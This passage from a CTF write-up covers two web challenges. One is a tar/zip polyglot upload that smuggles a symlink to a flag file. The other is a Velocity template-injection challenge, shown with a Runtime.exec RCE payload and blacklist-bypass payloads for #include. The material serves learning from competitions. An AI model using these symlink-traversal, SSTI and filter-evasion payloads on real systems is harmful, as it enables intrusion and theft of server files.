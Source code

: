 
First, use `is_zipfile` to check if it is a zip file, and then use patool's `extract_archive` to decompress the file. From the file name, it seems to be related to symlink. During the competition, I tried to use zip to package symlink files, but it didn't work. This challenge was later solved by my teammate.

I saw someone post the solution on [discord](https://discord.com/channels/656258740252704788/978312189159030805/985625416356229160):

```
ln -fs ../../../flag.txt .
touch a
zip a.zip -xi a
tar --owner 0 --group 0 -cvf payload.tar flag.txt a.zip

curl -v ${1:-symple-unzipper.web.jctf.pro}/extract -F 'file=@payload.tar'
```

From the discussion in discord, it seems that after doing the above, the file header is in tar format, and the end is the zip file you packaged. The implementation of `is_zipfile` will cause this type of file to pass (it seems to check the magic byte first, and if it cannot be found, it will be judged in other ways), so it is judged as true, and then it will be decompressed by the `extract_archive` below, and then your symlink will be preserved.

## Velociraptor(22 solves)

This challenge is Velocity's SSTI. If you search online, you will find this RCE payload:

``` java
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("touch /tmp/rai4over")
```

But this challenge locked it, so it cannot be used. The flag is in the root directory, so you don't need RCE, just need to be able to read the file. Velocity has an `include` command:

```
#include( "/flag.txt" )
```

But if you use it directly, it will give you an error:

> Malicious input detected (#include, #parse)

You need to find a way to bypass it. I saw someone do it this way on discord:

```
#set($x="#includ")
#set($y='e("/flag.txt")')
#set($a="$x$y")

#evaluate($a)
```

And someone used unicode to bypass it:

```
#set($x="#includ\u0065('/flag.txt')")
$x
```
